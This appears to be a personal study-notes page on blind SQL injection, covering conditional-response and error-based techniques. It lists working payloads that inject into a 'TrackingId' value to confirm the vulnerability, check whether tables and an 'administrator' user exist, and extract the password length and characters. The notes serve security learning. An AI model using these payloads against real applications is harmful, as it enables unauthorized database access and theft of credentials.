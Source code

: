 # SQL Injection

- SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database.
- Find endpoints for an application where it is likely to interact with DB server such as login, register, forgot password, add record, etc.


## Blind SQL injection

- It occurs when HTTP response of vulnerable request do not contain details of any database errors.
- Attacks of UNION are ineffective as they rely on result of query passed.

Types

1. Conditional responses (TRUE / FALSE):
    - You can retrieve information by triggering different responses conditionally, depending on an injected condition.
        ![image](https://github.com/th3-r3sistanc3/Notes/assets/71440632/6ca4ec03-3f3a-4f9c-a79a-fc92b4e46167)
         
         `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a` -->
         This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is `a`.
  
  - List of payloads
    - To check vulnerable or not
        > TrackingId=xyz' AND '1'='1

    - To check if table name exists
        > TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a

    - To check particular username exist in table
        > TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a

    - To check length of password (Increase value of `1` with each iteration)
        > TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a

    - To check password character wise (Increase value of `1` first one with each iteration)
        > TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a

2. Error-based SQL Injection
  - Error-based SQL injection refers to cases where you're able to use error messages to either extract or infer sensitive data from the database, even in blind contexts
  - When injecting different boolean conditions makes no difference to the application's responses.
  - Modify the query so that it causes a database error only if the condition is true.
  - Purpose cause error, so if condition is false it will return error for e.g. Divide by zero
  - Payload
      > xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a


